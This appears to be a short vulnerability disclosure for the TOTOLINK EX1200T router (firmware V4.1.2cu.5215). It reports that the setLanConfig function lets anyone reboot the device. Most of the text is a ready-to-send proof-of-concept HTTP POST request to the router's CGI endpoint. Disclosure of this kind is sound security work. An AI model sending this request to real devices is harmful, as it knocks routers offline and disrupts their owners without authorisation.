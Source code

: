 # TOTOLINK EX1200T REBOOT

## Reboot Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The function `setLanConfig` of the file `lan.so`  can reboot the system at will.

![image-20211101224911730](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211101224911730.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 35

{"topicurl":"setting/setLanConfig"}
```

![image-20211019163826445](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163826445.png)
